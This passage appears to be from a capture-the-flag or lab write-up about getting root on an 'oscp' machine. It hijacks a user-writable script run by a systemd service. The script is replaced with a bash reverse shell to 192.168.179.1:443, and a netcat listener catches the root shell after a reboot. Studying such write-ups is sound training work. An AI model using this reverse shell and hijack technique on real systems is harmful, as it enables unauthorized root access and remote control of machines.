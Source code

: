 Another way to get root, as we see In the oscp's home directory there's an ip script that performs a couple of tasks.

```console
-bash-5.0$ ls
ip  snap
-bash-5.0$ cat ip
#!/bin/sh
cp /etc/issue-standard /etc/issue
/usr/local/bin/get-ip-address >> /etc/issue
```

We search the path of this script in a file, it's in the ip-update.service file, if we run this service the script will be executed.

```console
-bash-5.0$ grep -r '/home/oscp/ip' /etc 2>/dev/null 
/etc/systemd/system/ip-update.service:ExecStart=/home/oscp/ip
-bash-5.0$ cat /etc/systemd/system/ip-update.service
[Unit]
Description=Write current ip addr to /etc/issue

[Service]
Type=oneshot
RemainAfterExit=true
ExecStart=/home/oscp/ip

[Install]
WantedBy=multi-user.target
```

With this in mind, I did a copy of the ip file, then I saved a bash reverse shell in that file, and gave it execute permissions.

```console
-bash-5.0$ mv ip ip.old
-bash-5.0$ echo '#!/bin/bash' > ip
-bash-5.0$ echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.179.1/443 0>&1"' >> ip
-bash-5.0$ chmod +x ip
```

Then, I started a netcat listener, rebooted the machine and got root.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.157] 49772
bash: cannot set terminal process group (758): Inappropriate ioctl for device
bash: no job control in this shell
root@oscp:/#
```
